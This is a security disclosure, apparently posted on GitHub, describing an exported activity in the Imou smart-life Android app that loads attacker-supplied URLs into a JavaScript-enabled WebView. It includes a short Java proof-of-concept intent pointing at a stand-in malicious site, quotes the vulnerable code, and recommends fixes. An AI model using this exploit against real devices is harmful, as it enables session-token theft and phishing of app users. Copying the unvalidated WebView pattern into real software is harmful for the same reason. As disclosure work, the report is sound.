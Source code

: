 ## Vulnerability Report (Revised)

### Introduction:
This vulnerability report outlines a security flaw identified in the `com.mm.android.smartlifeiot` app's exported activity: `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary web content in the WebView of the vulnerable application.



### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The `com.mm.android.easy4ip.MainActivity` activity in the `com.mm.android.smartlifeiot` app allows for the loading of URLs directly from intent data. This can be  exploited by a malicious third-party app to force this activity to load malicious web content from a URL specified by the attacker.

### Proof of Concept:

A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:

<code>
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);
</code>

Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
<code>
   this.url = getIntent().getExtras().getString("url");
</code>

3. JavaScript execution is enabled in the WebView:
   
<code>
   this.webView.getSettings().setJavaScriptEnabled(true);
</code>
5. Direct web content loading with the fetched URL:

<code>
   progressWebView.loadUrl(str);
</code>

### Impact:

A malicious actor can exploit this vulnerability to execute arbitrary JavaScript within the context of the vulnerable application. This could potentially lead to various attacks, including stealing session cookies or tokens, executing actions on behalf of the user within the app context, or displaying phishing content to the user.

### MITRE CWE References:

- [CWE-200: Information Exposure](https://cwe.mitre.org/data/definitions/200.html): Since arbitrary URLs can be loaded, there's a risk of exposing user data.
- [CWE-601: URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html): The application redirects users to any URL without validation.
- [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html): Due to the WebView configurations and lack of input validation.
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

 TLDR: **Set Exported='False'**
 ![image](https://github.com/actuator/imou/assets/78701239/ca4d4e27-3d5d-4a49-8fd9-2a7e60e29c37)
